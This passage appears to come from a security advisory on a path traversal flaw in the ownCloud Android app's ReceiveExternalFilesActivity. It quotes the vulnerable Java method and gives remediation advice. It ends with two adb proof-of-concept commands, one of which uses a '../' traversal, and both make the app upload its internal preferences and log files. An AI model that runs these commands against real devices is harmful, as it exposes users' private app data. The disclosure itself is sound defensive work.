 By reviewing `savePlainTextToFile`, it can be seen that the plain text file is momentarily saved in the app's cache, but the destination path is built using the user-provided `fileName`:

[`ReceiveExternalFilesActivity:983`](https://github.com/owncloud/android/blob/73f152c242dd818b9c4de267fe072338a35ff2ba/owncloudApp/src/main/java/com/owncloud/android/ui/activity/ReceiveExternalFilesActivity.java#L983)

```java
private Uri savePlainTextToFile(String fileName) {
    Uri uri = null;
    String content = getIntent().getStringExtra(Intent.EXTRA_TEXT);
    try {
        File tmpFile = new File(getCacheDir(), fileName); // here
        FileOutputStream outputStream = new FileOutputStream(tmpFile);
        outputStream.write(content.getBytes());
        outputStream.close();
        uri = Uri.fromFile(tmpFile);

    } catch (IOException e) {
        Timber.w(e, "Failed to create temp file for uploading plain text: %s", e.getMessage());
    }
    return uri;
}
```

An attacker can exploit this using a path traversal attack to write arbitrary text files into the app's internal storage or other restricted directories accessible by it. The only restriction is that the file will always have the `.txt` extension, limiting the impact.

## Remediation

Validate user input before using it to construct a file path. Ideally, follow these rules:

* Do not allow more than a single `.` character.
* Do not allow directory separators such as `/` or `\` (depending on the file system).
* Do not rely on simply replacing problematic sequences such as `../`. For example, after applying this filter to
`.../...//` the resulting string would still be `../`.
* Ideally use an allowlist of known good patterns.

## Resources

The following PoC demonstrates how to upload arbitrary files from the app's internal storage:

```
adb shell am start -n com.owncloud.android.debug/com.owncloud.android.ui.activity.ReceiveExternalFilesActivity -t "text/plain" -a "android.intent.action.SEND" --eu "android.intent.extra.STREAM" "file:///data/user/0/com.owncloud.android.debug/cache/../shared_prefs/com.owncloud.android.debug_preferences.xml"
```

The following PoC demonstrates how to upload arbitrary files from the app's internal `files` directory:

```
adb shell am start -n com.owncloud.android.debug/com.owncloud.android.ui.activity.ReceiveExternalFilesActivity -t "text/plain" -a "android.intent.action.SEND" --eu "android.intent.extra.STREAM" "content://org.owncloud.files/files/owncloud/logs/owncloud.2022-07-25.log"
```
